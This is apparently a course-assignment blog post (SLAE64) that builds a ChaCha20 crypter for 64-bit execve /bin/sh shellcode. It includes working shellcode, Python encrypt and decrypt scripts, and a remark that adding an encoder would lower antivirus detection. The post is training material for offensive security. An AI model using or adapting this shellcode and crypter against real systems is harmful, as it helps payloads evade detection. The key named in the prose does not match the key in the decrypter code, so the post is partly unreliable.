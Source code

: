 # SLAE Assignment #7

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online‐courses/securitytube-linux-assembly-expert/

Student ID: SLAE64 - 1525

## Assignment

* Create a custom crypter like the one shown in the "crypters" video
* Free to use any existing encryption schema
* Can use any programming language


## Encryption Algorithm

For this task the Chacha20 algorithm has been picked up.
As input it's used the execve-stack.nasm shellcode.
Original shellcode that executes /bin/sh:

```
; Filename: execve-nasm.nasm
; Author:  SLAE64 - 1525
;
; Purpose: execute /bin/sh
BITS 64

global _start

section .text

; settings
SH equ 0x68732f6e69622f2f

; syscall kernel opcodes
SYS_EXECVE equ 0x3b

_start:
    xor rax, rax
    push rax
    pop rdx         
    push rdx
    mov rbx, SH ; build //bin/sh
    push rbx ; copy ¨//bin/sh¨ string to stack
    mov rdi, rsp ; get the address for /bin/sh string
    push rax ; build args array, by pushing NULL
    push rdi ; then pushing string address
    mov rsi, rsp ; args array address
	push SYS_EXECVE
    pop rax
    syscall
```

Converted to opcodes:

```
$ ./compile-execve-stack.sh execve-stack
######### NASM #########
[+] Assembling with Nasm ... 
[+] Done!
[+] Linking ...
[+] Done!
[+] Objdump ...
"\x48\x31\xc0\x50\x5a\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x6a\x3b\x58\x0f\x05"
```

The final shellcode to use it's the following (we don't add any encoder stub, since the task is focused on encryption, but adding it at this point would help to decrease the detection rate):

```
"\x48\x31\xc0\x50\x5a\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x6a\x3b\x58\x0f\x05"
```

## Algorithm Explanation

ChaCha20 is a stream cipher developed by Daniel J. Bernstein. Its original design expands a 256-bit key into 2^64 randomly accessible streams, each containing 2^64 randomly accessible 64-byte (512 bits) blocks

## Encrypter

Here follows the Chacha20 encrypter which takes as input the shellcode and the encryption key, it gives as output the encrypted shellcode:

```python
#!/usr/bin/python
# Python Chacha20 Crypter
# Author: ID: SLAE64 - 1525
#
# Usage: python Encrypt.py

from Crypto.Cipher import ChaCha20
import base64


def encrypt():
    shellcode = "\x48\x31\xc0\x50\x5a\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x6a\x3b\x58\x0f\x05" # Execve-stack shellcode
    secret = b'G-KaPdSgVkYp3s6v9y$B&E)H@MbQeThW'
    cipher = ChaCha20.new(key=secret)
    crypted_shellcode = cipher.nonce + cipher.encrypt(shellcode)
    return base64.b64encode(crypted_shellcode)


if __name__ == "__main__":
    print encrypt()
```

## Decrypter

Here follows the Chacha20 decrypter which takes as input the encryption key, it gives as output the original shellcode:

```python
#!/usr/bin/python
# Python Chacha20 Decrypter
# Author: ID: SLAE64 - 1525
#
# Usage: python Decrypt.py

from Crypto.Cipher import ChaCha20
import base64


def decrypt():
    encoded_shellcode = base64.b64decode("F4KWN/2CwTuRIBALnZxp1uLp6ZqnJaLPqjb6dZFC3H+jPmiUYiA=") # Encoded Execve-stack shellcode
    secret = b'G-KaPdSgVkYp3s6v9y$B&E)H@MbQeThW'
    msg_nonce = encoded_shellcode[:8]
    ciphertext = encoded_shellcode[8:]
    cipher = ChaCha20.new(key=secret, nonce=msg_nonce)
    return cipher.decrypt(ciphertext)


if __name__ == "__main__":
    shellcode = decrypt()
    encoded = ''
    for x in bytearray(shellcode):
        encoded += '\\x%02x' % x
    print encoded
```

## Proof of execution

Let's encrypt:

```
$ python Encrypt.py 
6NQgwIJKICXUtw9IOnBjfg7Qjn8RQE7yIGii+q8YPe2hIYlAc44=
```

Let's decrypt the shellcode with they key ABCDEFGHABCDEFGH:

```
$ python Decrypt.py 
\x48\x31\xc0\x50\x5a\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x6a\x3b\x58\x0f\x05
```

As visible we have back the original shellcode.